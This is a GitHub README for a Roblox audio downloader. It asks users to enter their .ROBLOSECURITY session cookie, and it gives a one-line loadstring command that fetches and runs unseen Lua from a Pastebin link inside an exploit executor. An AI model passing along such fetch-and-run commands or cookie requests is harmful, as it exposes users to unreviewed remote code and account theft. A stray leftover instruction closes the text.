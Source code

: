 # Roblox Audio Fetcher Downloader

A GUI tool to download audio assets from Roblox.

> **Note:** We recommend using a Roblox alternate account (alt) and its corresponding `.ROBLOSECURITY` cookie to avoid potential security and privacy risks.

> **For Roblox Script Execution:**
> If you'd like to use this script, you can execute the provided Lua script in your game. Use the following command in any roblox exploit executor:
>
> ```lua
> loadstring(game:HttpGet('https://pastebin.com/raw/v7Usg709', true))()
> ```
>
> If you have concerns about the script's safety, you can visit the [Pastebin URL](https://pastebin.com/raw/v7Usg709) directly to review the code. 

> **Need Help?**
> If you require assistance or have questions about using the tool, refer to the detailed instructions provided in the [howto.txt](howto.txt) file.

> The Place Id as to have Audio Id/Asset Id connected to the place id

> Here is a Video Tutorial: 

## Usage

1. Clone or download the repository.

2. Install the required Python packages: ```pip install requests```
  
3. Run the audio.py script using Python: ```python audio.py```

4. Enter your Roblox cookie (.ROBLOSECURITY) and the target place ID in the GUI.

5. Choose a text file containing a list of asset IDs separated by commas.

6. Click the "Download All Audio Files" button to start downloading.

7. Downloaded audio assets will be stored in the audio_files folder.

   # Requirements
Python 3.x
Tkinter (usually included with Python)
Requests library

# License
This project is licensed under the MIT License.

Please follow the previous instructions to create the repository and add the `audio.py` file. Simply copy and paste the content of the provided `README.md` without the comments into your repository's `README.md` file.
